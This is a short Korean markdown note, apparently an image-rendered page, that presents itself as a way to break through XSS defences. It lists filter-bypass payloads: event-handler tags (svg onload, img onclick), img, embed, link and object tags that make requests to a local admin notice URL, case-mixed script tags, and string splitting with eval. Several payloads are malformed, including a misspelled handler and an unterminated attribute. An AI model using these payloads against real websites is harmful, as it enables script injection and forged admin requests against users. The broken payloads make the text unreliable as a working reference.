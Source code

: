 # XSS 공격을 방어하기 위한 다얀한 패치와 필터링 존재.

우리는 그것을 뚫어버려야 한다!!!!

# 1. 백 슬래시

<svg onload = "alert('1')">

<img src=# onclick="alert('1')">
<img src=# onmouceover="alert('1')">

# 2. 링크

<img src="http://127.0.0.1:8000/notice?id=admin">
<embed src="http://127.0.0.1:8000/notice?id=admin"/>
<link rel="stylesheet" href="http://127.0.0.1:8000/notice?id=admin">
<object data=’./notice?id=admin’ ></object>

# 3. 대소문자 이용

<Script>alert("1")</ScripT>

# 4. 문자열 분리

<img onclick='var s="aler"+"t(al"+"ert"+"(1));";eval(s);>
